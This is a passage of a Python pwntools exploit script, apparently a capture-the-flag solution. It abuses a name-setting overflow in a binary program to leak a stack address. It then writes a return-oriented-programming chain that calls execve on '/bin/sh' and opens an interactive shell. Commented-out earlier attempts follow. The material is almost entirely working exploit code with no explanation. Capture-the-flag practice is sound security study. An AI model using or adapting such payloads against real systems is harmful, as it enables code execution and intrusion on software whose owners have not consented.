    target = elf_base + 0xd000
    pay = b'A' * 0x79 + p64(target)[:-1]
    set_name(0,pay)
    set_name(1,pay)

    lss('heap_addr')
    lss('elf_base')
    vt = elf_base + 0xad38
    try:
        pay = p64(target)
        pay += p64(0x200)
        pay += p64(0) * 6
        pay += p64(target + 0x168) # stack
        pay += p64(2)
        pay += p64(2)
        pay += p64(0)
        pay += p64(0xbeef1)
        pay += p64(3)
        pay += p64(0xbeef2)
        pay = pay.ljust(0x80,b'A')
        fake_builds = pay 
        set_name(2,pay)
        #set_name(0,'ha'*0x100)
        show(0)
        ru('(0) (Unknown id: ')
        stack = int(ru(')')[:-1])
        lss('stack')

        pay  = p64(0) * 2
        pay  = pay.ljust(0x70, b'A')
        pay += p64(stack - 0x1d0 - 0x10) # ret
        pay += p64(0x400)
        pay += p64(0) * 6
        pay += p64(target + 0x168) # stack
        pay += p64(2)
        pay += p64(2)
        pay += p64(0)
        pay += p64(0xbeef1)
        pay += p64(3)
        pay += p64(0xbeef2)
        pay  = pay.ljust(0x200,b'A')
        set_name(0,pay)
        #pause()
     

        pop_rdi_rbp = elf_base + 0x0000000000003479 # pop rdi ; pop rbp ; ret
        pop_rsi_rbp = elf_base + 0x0000000000007feb # pop rsi ; pop rbp ; ret
        mov_rax_rsi = elf_base + 0x0000000000009595 # mov rax, rsi; ret;
        xor_edx_edx = elf_base + 0x000000000000318a # xor edx, edx; syscall;


        pay  = p64(0) * 2
        pay += p64(pop_rsi_rbp)
        pay += p64(0x3b)
        pay += p64(0)
        pay += p64(mov_rax_rsi)
        pay += p64(pop_rdi_rbp)
        pay += p64(target + 0x100)
        pay += p64(0)
        pay += p64(pop_rsi_rbp)
        pay += p64(0)
        pay += p64(0)
        pay += p64(xor_edx_edx)

        pay  = pay.ljust(0x100,b'H')
        pay += b'/bin/sh\x00'
        pay  = pay.ljust(0x400,b'H')

        #gdb.attach(io,gdbscript)
        set_name(1,pay)
        ru(':')
        sl('0')
        ru(':')
        sl('7')


        itr()
    except:
        io.close()


    #pay = b'A' * 0x79 + p32(0xbeefbeef)
    #set_name(1,pay)
    #pay = b'A' * 0x79 + p32(0xbeefbeef)
    #set_name(2,pay)


    #set_name(1,'A'*0x80)
    #set_name(2,'A'*0x80)


    #add(1,0x80)
    #add(2,0x80)
    #show(0)
    #set_name(1,''+'\x09'*0x22+ 'YYYY'+'\r'*0x400 +'ttt\r\t')
    #set_name(1,''+'\x09'*0x22+ 'YYYY'+'\r'*0x400 +'ttt\r\t')
    #
    #add_item(0,0,0)
    #add_item(0,1,1)
    #add_item(0,2,2)
    #add_item(0,3,3)
    #add_item(0,4,4)
    #add_item(0,5,5)
    #set_name(0,'A'*0x10)
    #set_name(1,'B'*0x10)
    #set_name(2,'C'*0x10)
    #show(0)
    #show(1)
    #show(2)
    #set_name(0,'D'*0x20)


    #set_name(0,'A'*(0x28*8))
    #set_name(0,'B'*(0x28*9))

    ##


    #set_name(0,)


    #trinket(0,1)

    #pay = flat({
    #},filler=b'\x00')

    # libc.address = libc_base
    # system = libc.sym['system']
    # bin_sh = next(libc.search(b'/bin/sh'))

```
